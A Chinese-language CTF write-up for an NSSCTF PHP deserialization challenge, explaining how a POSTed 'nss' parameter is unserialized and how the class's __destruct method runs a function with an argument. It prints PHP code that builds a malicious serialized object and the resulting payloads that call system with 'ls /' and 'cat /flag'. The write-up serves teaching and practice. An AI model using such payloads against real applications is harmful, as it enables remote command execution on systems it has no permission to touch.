




分析源码：

post传参nss

并将其反序列化

 

 

 

_destruct()

魔术方法

__destruct 方法在对象销毁时会自动调用，而且其中的代码会在函数调用时执行。

nss反序列化后，其中代码会被执行

$a参数接受lt的值

 

很像命令执行 函数+指令

 

*因此构造恶意序列化对象*

使$a=system

$lly=ls /

查看目录

得到序列化对象

 

<?php

class lyh{

  public $url ="NSSCTF.com";

  public $lt;

  public $lly;

}

$a= new lyh();

$a->lt = "system";

$a->lly = "ls /";

echo serialize($a);

?>

 

O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:4:"ls /";} 

 

构造payload：

nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:4:"ls /";} 

 

 

 

查看flag

 

<?php

class lyh{

  public $url ="NSSCTF.com";

  public $lt;

  public $lly;

}

$a= new lyh();

$a->lt = "system";

$a->lly = "cat /flag";

echo serialize($a);

?>

 

O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:9:"cat /flag";}

 

 

构造payload：

nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:9:"cat /flag";}

 

 

 

 

 